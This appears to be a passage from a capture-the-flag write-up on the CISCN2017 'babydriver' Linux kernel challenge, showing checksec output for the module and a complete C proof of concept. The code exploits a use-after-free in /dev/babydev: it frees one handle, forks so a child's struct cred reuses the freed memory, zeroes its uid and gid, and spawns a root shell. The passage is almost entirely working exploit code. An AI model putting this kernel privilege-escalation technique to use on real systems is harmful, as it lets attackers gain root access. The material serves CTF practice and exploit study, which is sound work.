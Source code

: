 1. check the protection of kernel module

```
$ checksec babydriver.ko
[*] 'ctf-challenges/pwn/kernel/CISCN2017-babydriver/babydriver.ko'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x0)
```

2. Exploit Generation with `struct cred` - `poc.c`

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main()
{
    // 打开两次设备
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    // 修改 babydev_struct.device_buf_len 为 sizeof(struct cred)
    ioctl(fd1, 0x10001, 0xa8);

    // 释放 fd1
    close(fd1);

    // 新起进程的 cred 空间会和刚刚释放的 babydev_struct 重叠
    int pid = fork();
    if(pid < 0)
    {
        puts("[*] fork error!");
        exit(0);
    }

    else if(pid == 0)
    {
        // 通过更改 fd2，修改新进程的 cred 的 uid，gid 等值为0
        char zeros[30] = {0};
        write(fd2, zeros, 28);

        if(getuid() == 0)
        {
            puts("[+] root now.");
            system("/bin/sh");
            exit(0);
        }
    }

    else
    {
        wait(NULL);
    }
    close(fd2);

    return 0;
}
```